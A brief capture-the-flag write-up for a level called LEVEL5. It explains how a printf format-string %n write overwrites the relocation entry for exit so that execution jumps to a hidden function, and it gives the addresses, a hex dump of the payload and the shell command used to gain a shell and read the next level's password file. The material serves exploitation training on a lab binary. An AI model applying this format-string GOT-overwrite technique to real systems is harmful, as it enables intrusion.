


**LEVEL5**




The function `n` is called directly from main

We can see we can exploit printf `%n` operator however there is no return, `exit` is called directly.

But we have write permission over the relocation table. So we can try to reach the relocation address of exit and overwrite it so that it redirect the flow of the program to `o`.

By checking through ghidra we know the relocation address is `0x08049838` and `o` address is `0x080484a4`

We need to craft a payload that will write the relocation address of exit at the start of the buffer `local_20` and write a number of character equal to the address of `o`

```
00000000: 3898 0408 2531 3334 3531 3338 3234 6425  8...%134513824d%
00000010: 3424 6e                                  4$n
```

Using this payload we get shell access
```bash
(cat /tmp/level5_payload; cat) | ./level5
cd /home/user/level6
cat .pass
```